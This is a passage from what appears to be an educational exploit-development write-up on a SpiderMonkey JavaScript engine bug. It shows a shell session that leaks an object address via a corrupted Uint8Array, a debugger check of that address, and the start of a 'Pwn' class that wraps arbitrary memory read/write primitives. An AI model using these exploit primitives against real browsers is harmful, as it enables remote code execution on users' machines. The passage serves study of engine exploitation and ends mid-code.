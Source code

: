```text
js> c = new Uint8Array(8)
({0:0, 1:0, 2:0, 3:0, 4:0, 5:0, 6:0, 7:0})

js> d = new Array(1337, 1338, 1339)
[1337, 1338, 1339]

js> b[14] = d
[1337, 1338, 1339]

js> c.slice(0, 8)
({0:32, 1:29, 2:32, 3:141, 4:108, 5:1, 6:254, 7:255})

js> Int64.fromJSValue(c.slice(0, 8)).toString(16)
"0x0000016c8d201d20"
```

And we can verify with the debugger that we indeed leaked the address of `d`:

```text
0:005> !smdump_jsobject 0x16c8d201d20
16c8d201d20: js!js::ArrayObject:   Length: 3
16c8d201d20: js!js::ArrayObject: Capacity: 6
16c8d201d20: js!js::ArrayObject:  Content: [0x539, 0x53a, 0x53b]
@$smdump_jsvalue(0xfffe016c8d201d20)

0:005> ? 539
Evaluate expression: 1337 = 00000000`00000539
```

Sweet, we now have all the building blocks we require to write [basic.js](https://github.com/0vercl0k/blazefox/blob/master/exploits/basic.js) and pop some calc. At this point, I combined all the primitives we described in a `Pwn` class that abstracts away the corruption details:

```Javascript
class __Pwn {
    constructor() {
        this.SavedBase = Smalls[13];
    }

    __Access(Addr, LengthOrValues) {
        if(typeof Addr == 'string') {
            Addr = new Int64(Addr);
        }

        const IsRead = typeof LengthOrValues == 'number';
        let Length = LengthOrValues;
        if(!IsRead) {
            Length = LengthOrValues.length;
        }

        if(IsRead) {
            dbg('Read(' + Addr.toString(16) + ', ' + Length + ')');
        } else {
            dbg('Write(' + Addr.toString(16) + ', ' + Length + ')');
        }

        //
        // Fix U8A's byteLength.
        //

        Smalls[11] = Length;

        //
        // Verify that we properly corrupted the length of U8A.
        //
```